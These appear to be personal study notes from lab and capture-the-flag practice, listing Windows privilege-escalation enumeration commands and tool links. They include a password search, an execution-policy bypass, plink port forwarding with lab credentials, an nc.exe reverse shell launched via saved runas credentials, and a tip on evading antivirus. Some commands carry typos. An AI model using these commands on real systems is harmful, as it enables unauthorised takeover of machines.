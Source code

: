 
- [Fuzzy Security Guide](https://www.fuzzysecurity.com/tutorials/16.html)
- [PayloadsAllTheThings Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
- [Sushant 747's Guide (Country dependant - may need VPN)](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [Course Resources](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)
- [Alternate Data Streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)
- [hacktricks](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)
- 
## Initial Enumeration
- System Enumeration
	- `systeminfo` 
	- `systeminfo | findstr /b /c:"OS Name" /c:"OS Versoin" /c:"System Type" `
	- `wmic qfe `
	- `wmic qfe Caption,Description,HotFixID,InstalledOn` 
	- `wmic logicaldisk `
	- `wmic logicaldisk get caption,description,providername` 
	- `wmic logicaldisk get caption`
- User Enumeration
	- `whoami /priv`
	- `whoami /groups`
	- `net user`
	- `net user anurag`
	- `net localgroup`
	- `net localgriup Administrators`
- Network Enumeration
	- `ipconfig` or `ipconfig /all`
	- `arp -a`
	- `route print`
	- `netstat -ano`
- Password Hunting
	- `findstr /si password *.txt *.ini *.config`
-  AV Enumeration
	- `sc query windefend`
	- `sc queryex type= service`
	- `netsh advfirewall firewall dump`
	- `netsh firewall show state`
	- `netsh firewall show config`

## Automated Tool
- Executables
	- [WinPEAS ](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
	- [Seatbelt](https://github.com/GhostPack/Seatbelt) (Compile)
	- [SharpUp](https://github.com/GhostPack/SharpUp) (Compile)
	- [Watson](https://github.com/rasta-mouse/Watson) (Compile)
- PowerShell
	- [Sherlock](https://github.com/rasta-mouse/Sherlock)
	- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)  -- run always
		- To run `powershell -ep bypass` 
		- `, .\PowerUp.ps1` 
		- `Invoke-AllChecks`
	- [JAWS](https://github.com/411Hall/JAWS)
- Other
	- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) (local) -- need system info and run on our system
	- [Metasploit Local Exploit Suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)

- [Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

## Escalation Path

####  Kernel Exploits
- Box [Devel](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-devel)
- What is kernel
![[kernel.png]]
- For Windows
![[windows kernel.png]]
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits) resource

#### Passwords and Port Forwarding
- Box [ChatterBox](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-chatterbox)
- Pivoting
	- install ssh on kali `sudo apt install ssh` and change the `PermitRootLogon yes` in `/etc/ssh/sshd_config`  then `service restart ssh` 
		- also change the port from 22 to 2222 if giving 'Network error: Connection timed out'
	- `plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.16`  
		- The command connects to the remote SSH server at `10.10.14.16` with the username `root` and password `toor`. It sets up remote port forwarding so that any connections made to port `445` on the remote server are forwarded to port `445` on your local machine (local machine is htb box in our case).

#### Windows Subsystem for Linux (WSL)
- Box [SecNotes](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-secnotes)
- check for bash.exe and wsl.exe
- `where /R c:\windows bash.exe `  OR `where /R c:\windows wsl.exe`
- and run bash.exe or `wsl.exe cmd`

#### Impersonation and Potato Attacks
- Box [Jeeves](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-jeeves)
- Refer [this](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges)
- look for `SeAssignPrimaryToken` or `SeImpersonate`
- [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [Juicy Potato](https://github.com/ohpe/juicy-potato)
- For meterpreter `exploit/windows/local/ms16_075_reflection_juicy` or `exploit/windows/local/ms16_075_reflection`
- `getsystem` -- meterpreter cmd for impersonation (avoid technique 2 in real world might got caught by AV)
	- [What happens when I type getsystem?](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)

#### RunAs
- Box [Access](https://anuragtaparia.gitbook.io/write-ups/windows/htb-or-access)
- run `cmdkey /list` -- if there is any stored cred, we can use runas.exe
	- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`
	- or for shell
		- On our system -- `nc -nlvp 1234`
		- on box -- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\security\nc.exe -e C:\Windows\System32\cmd.exe 10.10.14.6 1234"`

#### Registry
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Registry Escalation - Autorun
- Registry Escalation -  AlwaysInstallElevated
- Service Escalation - Registry

#### Executable Files
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Service Escalation - Executable Files

#### Startup Applications
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Privilege Escalation - Startup Applications
- `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` 
- if “BUILTIN\Users” group has full access ‘(F)’ to the directory that means we can put our msf exe and get shell

#### DLL Hijacking
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Service Escalation - DLL Hijacking

#### Service Permissions (Paths)
- Using THM [Windows PrivEsc Arena](https://tryhackme.com/r/room/windowsprivescarena)
- Service Escalation - binPath
- Service Escalation - Unquoted Service Paths
